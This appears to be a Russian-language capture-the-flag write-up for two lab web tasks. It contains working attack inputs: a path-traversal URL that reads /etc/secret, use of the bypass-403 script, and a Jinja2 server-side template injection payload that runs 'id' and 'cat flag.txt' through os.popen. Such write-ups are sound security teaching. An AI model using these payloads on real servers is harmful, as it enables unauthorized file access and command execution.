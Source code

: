 web 1

1. Проводим осмотр веб-приложения. И находим ссылку: ![Screenshot_2024-03-21_11_49_29](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/89ffc2c9-6dab-4ca0-b43c-ac2a543a2b67) Перейдя по ней, видим подсказку, что файл с флагом может находиться в директории etc/secret: ![Screenshot_2024-03-21_11_50_45](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/1dcf0c00-b9c7-4a70-8cfc-b424bb8773f1)

2. Чтобы скачать необходимый файл с сервера, воспользуемся уязвимостью "file inclusion". Введем в адресную строку: http://192.168.12.10:5001/download?file_type=/../../../../../../etc/secret. Скачивается нужный файл: ![Screenshot_2024-03-21_11_54_12](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/272ec935-ed57-40d3-9ebd-f3f918f99443)
В нем находится флаг: ![Screenshot_2024-03-21_11_55_59](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/40f75ce4-6e24-4d2c-989d-bb41cd7e3b82)





------------------------------------------------------

web3

1. При вводе данных сайт выдает ошибку: "403 Forbidden". Ее можно обойти с помощью скрипта Bypass-403: https://github.com/iamj0ker/bypass-403.

2. Для установки скрипта введем следующие команды в терминале:
	1) git clone https://github.com/iamj0ker/bypass-403
	2) cd bypass-403
	3) chmod +x bypass-403.sh
	
3. Введем команду, в которой укажем наш сайт и путь к файлу flag.txt: ./bypass-403.sh http://192.168.12.11:8001 flag

4. Программа выдает несколько адресов:![Screenshot_2024-03-21_10_14_41](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/5a1e2f9f-79a3-4636-a75c-9ee38b49566e) Выбираем один из адресов с наибольшим временем, например: http://192.168.12.11:8001//flag//, переходим по ссылке и получаем следующий результат:![Screenshot_2024-03-21_10_20_47](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3feedbef-f71d-434b-a1e7-2bfdbbe872b4)
 
5. Теперь посмотрим на исходный код сайта, а именно на файл "app.py". В строке 24 мы видим, что функции передается параметр "name". Функция выдает два результата в зависимости от полученных данных. Если имя не содержит запрещенных символов, то на экран выводится сообщение "привет <имя>", в противном случае: "Содержит запрещенные символы". ![Screenshot_2024-03-21_10_22_30](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2dfe648e-5648-4b61-8774-6593b7193ec3)


6. Попробуем передать функции параметр "name". Напишем в адресной строке браузера: http://192.168.12.11:8001//flag?name=abc. Получаем следующее:![Screenshot_2024-03-21_10_27_39](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3b0595e7-b42a-4994-ba1a-a94359557a73) Далее вместо "abc" напишем запрещенные символы: "mro". Видим следующее:![Screenshot_2024-03-21_10_31_20](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/f0d634dd-64ec-4aff-892b-1837dfc79207) На первый взгляд кажется, что функция работает корректно.

7. Вполне возможно, что сайт имеет уязвимость. С помощью SSTI (внедрения шаблонов на стороне сервера) попробуем что-нибудь достать с сервера. Введем в адресную строку вместо "mro" "{{2*22}}". На экране выдим рузультат математической операции:![Screenshot_2024-03-21_10_34_42](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/a7f98e6c-1b32-49f9-9d91-906c0030df57)
Сервер не заметил запрещенные символы и выполнил команду. Это и есть уязвимость.

8. Проверим, выведет ли сервер ID файлов, которые хранятся на нем. Откроем документацию на GitHub (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2) и найдем следующий пункт "Exploit the SSTI by calling os.popen().read()". Вместо "{{2*22}}" введем "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}". Получаем:![Screenshot_2024-03-21_10_42_32](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2b99527f-7580-4f0f-b02b-af9f7116badf) Сервер выдал ID файлов.

9. Если сервер вывел ID файлов, то он может вывести и содержимое файлов. Нам необходимо найти флаг, поэтому введем команду: http://192.168.12.11:8001//flag?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}; и получим флаг: ![Screenshot_2024-03-21_10_45_13](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/909398a7-b9c5-4673-8a77-6948c6060872)
 
